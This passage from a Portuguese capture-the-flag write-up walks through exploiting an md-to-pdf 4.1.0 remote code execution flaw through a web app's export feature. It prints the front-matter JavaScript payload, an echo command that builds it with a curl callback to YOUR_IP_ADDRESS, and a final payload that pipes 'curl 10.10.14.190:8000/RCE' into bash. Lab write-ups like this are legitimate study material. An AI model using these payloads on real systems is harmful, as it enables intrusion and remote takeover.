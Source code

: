     A fazer um `diff -r y 'primeira dir' 'segunda dir'` encontramos uma função de exportar
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2056.png)
    
    Está usando o arquivo md-to-pdf.js no diretório misc. Após ler o conteúdo do arquivo md-to-pdf.js, podemos ver que ele está usando um pacote Node chamado md-to-pdf.
    
    ```
    cat misc/md-to-pdf.js
    ```
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2057.png)
    
    `cat misc/package-lock.json | grep -B 3 md-to-pdf`
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2058.png)
    
    Ao fazer uma rápida pesquisa no Google com as palavras-chave "md-to-pdf 4.1.0 exploit", descobrimos que esta versão é vulnerável a uma vulnerabilidade de Execução Remota de Código. A prova de conceito (PoC) desse exploit pode ser encontrada aqui. Precisamos fazer o pacote md-to-pdf analisar a seguinte carga útil para executar o código de RCE.
    
    ```
    ---js\n((require("child_process")).execSync("<RCE_code>"))\n---RCE
    ```
    
    Ao analisar novamente o arquivo `app.py`, percebemos que o aplicativo verifica se o arquivo referenciado termina com a extensão .md.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2059.png)
    
    Assim, devemos renomear nosso arquivo de payload para ter a extensão de arquivo .md. Primeiro, vamos enviar o seguinte payload de teste que acionará uma solicitação GET do host remoto para nosso servidor web para o arquivo test.txt. Salve o payload no arquivo [rce.md](http://rce.md/) usando o seguinte comando:
    
    `echo "---js\\\n((require(\"child_process\")).execSync(\"curl
    YOUR_IP_ADDRESS:8000/test.txt\"))\\\n---RCE" > rce.md`
    
    Vamos iniciar um servidor web Python em nossa máquina local na porta 8000 no diretório que contém o arquivo rce.md.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2060.png)
    
    Após clicar no botão "Exportar", podemos ver que nosso servidor web recebe uma solicitação GET para o arquivo [rce.md](http://rce.md/) e, após alguns segundos, outra solicitação GET para o arquivo /test.txt é registrada. Isso confirma uma execução remota de código bem-sucedida.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2061.png)
    
    `Test.md` file
    
    ```
    ---js\n((require("child_process")).execSync("curl 10.10.14.190:8000/RCE | bash"))\n---RCE
    ```
    